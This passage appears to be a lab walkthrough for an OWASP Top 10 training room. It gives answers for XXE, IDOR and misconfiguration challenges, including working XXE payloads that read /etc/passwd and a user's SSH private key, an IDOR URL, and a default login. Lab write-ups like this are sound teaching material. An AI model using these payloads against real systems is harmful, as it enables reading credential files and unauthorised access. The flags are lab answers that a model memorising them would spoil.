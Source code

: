 ```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM "file:///etc/passwd">]>
<root>&read;</root>
```

![Guide Image](/images/posts/owasp-top-10-2.png)

-   You can see the name:

```
falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash
```

**=> Answer: `falcon`**

-   <p>Where is falcon's SSH key located?<br /></p>

```
- We know the falcon is stored at /home/falcon
```

**=> Answer: `/home/falcon/.ssh/id_rsa`**

-   <p>What are the first 18 characters for falcon's private key<br /></p>

```
<!DOCTYPE root [<!ENTITY read SYSTEM "file:///home/falcon/.ssh/id_rsa">]>
<root>&read;</root>
```

![Guide Image](/images/posts/owasp-top-10-3.png)

**=> Answer: `MIIEogIBAAKCAQEA7b`**

### 17. [Severity 5] Broken Access Control

_No hints needed!_

### 18. [Severity 5] Broken Access Control (IDOR Challenge)

-   <p>Look at other users notes. What is the flag?<br /></p>

```
- Try the URL http://<MACHINE_IP>/note.php?note=0
```

**=> Answer: `flag{fivefourthree}`**

### 19. [Severity 6] Security Misconfiguration

-   <p>Hack into the webapp, and find the flag!<br /></p>

```
- Visit http://<MACHINE_IP>
- You can see that this app named Pensive Notes
- Try search on GG with: Pensive Notes
- You will find this Gihub repo where the username and password are located: https://github.com/NinjaJc01/PensiveNotes
- Login with pensive:PensiveNotes
```
